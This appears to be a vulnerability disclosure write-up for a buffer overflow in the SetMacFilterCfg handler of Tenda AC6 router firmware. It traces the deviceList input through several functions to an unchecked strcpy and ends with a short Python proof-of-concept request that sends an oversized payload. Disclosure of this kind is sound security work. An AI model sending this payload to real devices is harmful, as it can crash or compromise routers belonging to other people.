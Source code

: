 # buffer overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buffer overflow in httpd/SetMacFilterCfg

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html
## Analyse:


![](../Tenda_AC10U_V1/4.png)

get value from macFilterType , and get into if

![](../Tenda_AC10U_V1/5.png)

get value from deviceList , pass to set_macfilter_rules

![](../Tenda_AC10U_V1/6.png)

pass to set_macfilter_rules_by_one

![](../Tenda_AC10U_V1/7.png)

pass to parse_macfilter_rule

![](../Tenda_AC10U_V1/8.png)

finally call strcpy ,cause buff overflow

## POC
```
url = "http://192.168.1.13/goform/SetMacFilterCfg"
payload = 'A'*0x1000h + '\n'

r = requests.post(url, data={'deviceList': payload , 'macFilterType': 1 })
```
